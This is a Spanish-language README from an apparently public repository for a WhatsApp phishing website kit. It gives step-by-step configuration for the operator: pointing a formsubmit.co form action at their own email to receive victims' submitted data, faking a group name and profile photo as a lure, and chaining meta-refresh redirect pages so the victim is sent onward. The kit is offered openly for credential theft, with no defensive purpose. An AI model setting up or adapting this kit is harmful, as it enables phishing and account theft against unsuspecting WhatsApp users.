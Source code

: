 # WhatsApp-fishing
WhatsApp_fishing web

> website para hacer fishing de WhatsApp para Android y computadoras 

## website para fishing para Whatsapp

# requerimientos

> no se requiere ningún tipo de plugin o extensión

# configuración 

> configuración de envío de datos

> efitar la sección de form donde se encuentra el username para remplazar por su correo
>
```html
 <form action="https://formsubmit.co/username@gmail.com" method="POST">
```
> previamente ya actívaste tu cuenta en 
<body>
<img src="https://formsubmit.co/image/logo.png">
</body>

> para que los datos te los envíen a tu correo electrónico 
# nombre

> para cambiar el nombre del grupo tienes que editar la cesión en en el index.html 
```html
<p2>nombre del grupo </p2>
```

</details>
> para cambiar la foto de perfil tienes que cambiar la foto ubicado en
 /img/grupo.jpg

# enlace de archivos 

> para enlazar el index.html y el código.html se tiene que proporcionar el link creado por el hosting
>
> se tiene que editar el redireciona para que apunte ala web se edita la siguiente sección

```html
<input type="hidden" name="_next" value="url_web">
```
# recursos

> puedes utilizar los load implementado en los archivos 
se encuentra en /load/load.html y load2.html

### función

> se utiliza la etiqueta
```html
<meta http-equiv="refresh" content="tiempo;URL='url'">
```
> para redireccionar a otra web o archivos especificado
> para usar la etiqueta se tiene que editar [tiempo] que es el tiempo en que se demora para redireccionar la usuaria [url] que web se carga


> load es un intermediario para hacer la página mas dinámica y para que se carga correctamente

### función 
>
# fotos 

<body>
 <img src="https://raw.githubusercontent.com/A72672/WhatsApp-fishing/main/fhoto/Screenshot_2023-10-10_07-58-07.png">
</body>
